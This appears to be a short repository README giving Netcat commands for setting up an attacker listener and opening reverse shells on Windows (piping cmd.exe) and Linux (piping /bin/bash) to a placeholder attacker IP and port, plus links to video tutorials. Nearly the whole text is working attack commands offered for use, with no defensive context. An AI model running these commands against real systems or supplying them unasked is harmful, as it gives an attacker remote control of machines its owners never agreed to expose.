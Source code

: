 ## Setup a Netcat listener on the attacker machine

`nc -lvp port`

where `port` is any port number.

## To obtain a reverse shell for Windows

`nc.exe ip port –e cmd.exe`

## To obtain a reverse shell for Linux

`nc ip port –e /bin/bash`

where `ip` is the attacker machine IP and `port` is the chosen listening port.

## Video Tutorials

Win Reverse: https://goo.gl/bNxhbf
Linux Reverse: https://goo.gl/pwkJXB
